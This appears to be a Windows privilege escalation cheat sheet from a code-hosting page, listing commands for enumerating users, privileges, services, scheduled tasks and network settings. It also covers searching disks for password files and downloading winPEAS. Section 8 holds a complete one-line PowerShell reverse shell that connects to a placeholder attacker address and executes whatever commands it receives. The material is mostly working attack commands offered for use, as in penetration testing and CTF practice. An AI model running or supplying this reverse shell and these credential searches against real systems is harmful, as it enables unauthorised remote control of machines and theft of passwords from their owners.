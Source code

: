 # Windows Privilege Escalation - Cheat Sheet

### 1. System Information

```powershell
systeminfo                      # System info
wmic os get caption,version     # OS version
whoami                          # Current user
whoami /priv                    # Privileges of current user
whoami /groups                  # Group memberships
net users                       # List all users
net user <username>             # User details
net localgroup administrators   # Check admin group members
tasklist /v                     # Running processes
tasklist /svc                   # Processes with services
```

### 2. Searching for Sensitive Files

```powershell
dir /s /b *password* 2>nul       # Find files containing "password"
findstr /si password *.txt       # Search for passwords in text files
dir C:\Users /s /b | findstr /i "password"  # Search for password files in user directories
```

### 3. Permissions and User Privileges

```powershell
net share                       # Shared folders
net user <user>                 # User details
icacls C:\path\to\file        # Check file permissions
```

### 4. Scheduled Tasks & Services

```powershell
schtasks /query /fo LIST /v     # List scheduled tasks
Get-ScheduledTask | fl          # PowerShell alternative
sc query                        # List services
sc qc <service>                 # Check service config
```

### 5. Network & Firewall

```powershell
ipconfig /all                   # Network configuration
netstat -ano                    # Open network connections
route print                      # Routing table
Get-NetFirewallRule              # Firewall rules (PowerShell)
```

### 6. Logs & Event Viewer

```powershell
wevtutil qe Security /c:10 /f:text /rd:true  # Last 10 security logs
Get-EventLog -LogName Security -Newest 10   # PowerShell alternative
```

### 7. Common Service Paths & Registry Keys

```powershell
C:\ProgramData\
C:\Users\Public\
C:\Windows\System32\Tasks\
C:\Windows\System32\config\
C:\Windows\System32\drivers\etc\
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
```

### 8. Reverse Shells

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',ATTACKER_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### 9. Exploitation & Enumeration Tools

```powershell
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250301-c97fb02a/winPEASany.exe -OutFile winPEASany.exe
.\winPEASany.exe  # Run WinPEAS
```
